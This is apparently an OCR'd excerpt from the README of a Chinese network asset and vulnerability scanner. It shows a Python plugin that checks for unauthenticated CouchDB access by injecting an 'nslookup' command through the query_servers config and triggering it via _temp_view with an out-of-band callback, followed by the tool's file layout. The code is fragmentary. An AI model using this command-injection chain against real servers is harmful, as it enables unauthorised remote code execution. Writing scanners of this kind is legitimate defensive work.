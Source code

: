     	str1=""
    	for i in range(len):
        	str1+=(random.choice("ABCDEFGH1234567890"))
    	return str(str1)
	def check(ip,port,timeout):
	    rand_str = random_str(8)
	    cmd = random_str(4)
		server_ip = get_ver_ip()
	    req_list = [
	        ["/_config/query_servers/%s"%(cmd),'"nslookup %s %s>log"'%(rand_str,server_ip)],
	        ["/vultest123",''],
	        ["/vultest123/test",'{"_id":"safetest"}']
	    ]
	    for req_info in req_list:
	        try:
	            request = urllib2.Request(url+req_info[0],req_info[1],timeout=timeout)
	            request.get_method = lambda: 'PUT'
	            urllib2.urlopen(request)
	        except:
	            pass
	    try:
	        req_exec = urllib2.Request(url + "/vultest123/_temp_view?limit=11",'{"language":"%s","map":""}'%(cmd))
	        req_exec.add_header("Content-Type","application/json")
	        urllib2.urlopen(req_exec)
	    except:
	        pass
	    check = urllib2.urlopen("http://%s/%s"%(server_ip,rand_str)).read()
	    if 'YES' in check:
	        return u"未授权访问"
## 流程演示视频 ##

[![](https://sec-pic-ly.b0.upaiyun.com/xunfeng/static/intro.png)](https://sec-pic-ly.b0.upaiyun.com/xunfeng/xunfeng.mp4)

	#演示数据为填充数据

## 文件结构 ##
   

	│  Config.py  # 配置文件
	│  README.md  # 说明文档
	│  Run.bat  # Windows启动服务
	│  Run.py  # webserver
	│  Run.sh    # Linux启动服务，重新启动前需把进程先结束掉
	│  
	├─aider
	│      Aider.py  # 辅助验证脚本
	│      
	├─db  # 初始数据库结构
	│      
	├─masscan  # 内置编译好的Masscan程序（CentOS win64适用），需要chmod+x给执行权限（root），若无法使用请自行编译安装。	
	├─nascan
	│  │  NAScan.py # 网络资产信息抓取引擎
	│  │  
	│  ├─lib
	│  │      common.py 其他方法
	│  │      icmp.py  # ICMP发送类
	│  │      log.py  # 日志输出
	│  │      mongo.py  # 数据库连接
	│  │      scan.py  # 扫描与识别
	│  │      start.py  # 线程控制
	│  │      
	│  └─plugin